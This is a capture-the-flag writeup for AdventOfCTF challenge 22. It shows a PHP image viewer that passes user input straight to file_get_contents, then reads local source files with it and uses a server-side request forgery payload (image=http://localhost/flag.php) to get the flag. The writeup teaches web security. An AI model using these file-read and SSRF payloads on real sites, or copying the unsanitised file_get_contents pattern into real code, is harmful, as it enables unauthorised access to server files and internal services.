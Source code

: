 +++
author = "Maik de Kruif"
title = "Challenge 22 - AdventOfCTF"
date = 2021-03-04T01:24:34+01:00
description = "A writeup for challenge 22 of AdventOfCTF."
cover = "img/adventofctf/6c0810c1568645bcf58da67a1db6e3e7.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "php",
    "ssrf",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 2200

## Description

We have a new service! You can view santa's favorite pictues. Currently there is only one, but it is a very good one! You can get the flag through flag.php.

Visit https://22.adventofctf.com to start the challenge.

## Recon

Upon opening the challenge website, we're greeted with a link with the text "Is this santa?". If we click on it, it redirects to `/index.php?image=cat.jpg`.

This page shows us a nice picture of a cat.

## Finding the vulnerability

When looking at this, you might think of Local File Inclusion (LFI). This makes sense as it is one of the most common vulnerability in opening files.

We can try to use it to open `flag.php`. To try this, let's replace `cat.jpg` with `flag.php` in the URL.

When opening the page, we will see a broken image, this is expected as the file it not an image. If we open the source we find the following:

```html
<img
  src="data:image/jpeg;base64,PD9waHAKCmluY2x1ZGUoInNlY3JldC5waHAiKTsKCmlmIChzdHJwb3MoY2hlY2tfc2VjcmV0KCksICJhbGxvdyIpICE9PSBmYWxzZSkgewogICBlY2hvIGdldF9mbGFnKCk7IAp9Cgo/Pgo="
  width="100%"
/>
```

Here we see some `base64` encoded data, let's decode it using the following command:

```bash
echo -n "PD9waHAKCmluY2x1ZGUoInNlY3JldC5waHAiKTsKCmlmIChzdHJwb3MoY2hlY2tfc2VjcmV0KCksICJhbGxvdyIpICE9PSBmYWxzZSkgewogICBlY2hvIGdldF9mbGFnKCk7IAp9Cgo/Pgo=" | base64 -d
```

```php
<?php

include("secret.php");

if (strpos(check_secret(), "allow") !== false) {
   echo get_flag();
}

?>
```

If we look at this code, we see that if `check_secret()` contains `"allow"`, it will execute the `get_flag()` function (which will probably give us the flag).

The functions are not defined in this file so they probably come from `secret.php`. Let's try to read that file.

Alas, we get the cat picture again. That's weird. There might be a filter on the input. Let's verify that by reading the `index.php` file.

Using the same decoding method, we get the following result:

{{< code language="php" title="index.php" >}}

```html
<!DOCTYPE html>
<html class="no-js" lang="">
  <head>
    <meta charset="utf-8" />
    <meta http-equiv="x-ua-compatible" content="ie=edge" />
    <title>Advent of CTF 22</title>
    <meta name="description" content="" />
    <meta name="viewport" content="width=device-width, initial-scale=1" />

    <link rel="stylesheet" href="style.css" type="text/css" media="screen" />
    <link
      rel="stylesheet"
      href="https://use.fontawesome.com/releases/v5.6.3/css/all.css"
      integrity="sha384-UHRtZLI+pbxtHCWp1t77Bi1L4ZtiqrqD80Kn4Z8NTSRyMA2Fd33n5dQ8lWUE00s/"
      crossorigin="anonymous"
    />
    <style>
      .row-margin-05 {
        margin-top: 0.5em;
      }
      .row-margin-10 {
        margin-top: 1em;
      }
      .row-margin-20 {
        margin-top: 2em;
      }
      .row-margin-30 {
        margin-top: 3em;
      }
    </style>
  </head>
  <body>
    <div class="jumbotron bg-transparent mb-0 radius-0">
      <div class="container fluid">
        <div class="row">
          <div class="col-xl-6 mx-auto">
            <h1 class="display-2">
              Advent of CTF <span class="vim-caret">22</span>
            </h1>
            <div class="lead mb-3 text-mono text-warning">
              Your daily dose of CTF for December
            </div>

            <div class="row">
              <div class="col-xl-12 mx-auto">
                <div class="card">
                  <div class="card-header text-center">
                    <h2>The big reveal</h2>
                  </div>
                  <div class="card-body">
                    <?php
                    if (!isset($_GET["image"])) {
                    ?>
                    <a href="/index.php?image=cat.jpg">Is this santa?</a>
                    <?php
                    } else {
                        $path = $_GET["image"];
                        if (strpos($path,"secret") !== false) {
                            $path="cat.jpg";
                        }
                        $image = file_get_contents($path);
                        echo '<img src="data:image/jpeg;base64,'.base64_encode($image).'" width="100%"/>';
                    } ?>
                  </div>
                  <div class="card-footer text-center">Almost there</div>
                </div>
              </div>
            </div>
            <div class="row row-margin-30">
              <div class="card mb-3 bg-dark text-white">
                <div class="card-body">
                  <div class="row">
                    <div class="col-md-2">
                      <img src="/logo.png" />
                    </div>
                    <div class="col-md-9 offset-md-1 align-middle">
                      <p class="text-center">
                        <span class="align-middle">
                          The Advent of CTF is brought to you by
                          <a href="http://www.novi.nl">NOVI Hogeschool</a>. It
                          is built by
                          <a
                            href="https://twitter.com/credmp/"
                            class="icoTwitter"
                            title="Twitter"
                            ><i class="fab fa-twitter"></i> @credmp</a
                          >. If you are looking for a Dutch Cyber Security
                          Bachelor degree or bootcamp,
                          <a href="https://www.novi.nl">check us out</a>.
                        </span>
                      </p>
                    </div>
                  </div>
                </div>
              </div>
            </div>
          </div>
        </div>
      </div>
    </div>
  </body>
</html>
```

{{< /code >}}

Just the PHP part:

```html
<?php
if (!isset($_GET["image"])) {
?>
<a href="/index.php?image=cat.jpg">Is this santa?</a>
<?php
} else {
    $path = $_GET["image"];
    if (strpos($path,"secret") !== false) {
        $path="cat.jpg";
    }
    $image = file_get_contents($path);
    echo '<img src="data:image/jpeg;base64,'.base64_encode($image).'" width="100%"/>';
} ?>
```

Here we see that we cannot get any file containing "secret". This means we have to find another way to get the flag.

We see that this code is using the `file_get_contents()` function to open file. Let's have a look at the [PHP documentation for it](https://www.php.net/manual/en/function.file-get-contents.php).

If we read a bit we find the following example usage:

```php
<?php
$homepage = file_get_contents('http://www.example.com/');
echo $homepage;
?>
```

This means it can also open URLs and, since we control the input to the function, we have a Server-Side Request Forgery (SSRF) vulnerability. Let's try to use that to open the flag file.

To test this, we can use the following input; `image=http://localhost/flag.php`.

_Note: We can not use the `secret.php` file as any input containing "secret" is blocked._

We, again, got some base64 encoded data back, so let's decode it:

```bash
echo -n "Tk9WSXthc2tpbmdfZm9yX2FfZnJpZW5kfQ==" | base64 -d
```

## Solution

We got the flag! It is `NOVI{asking_for_a_friend}`.
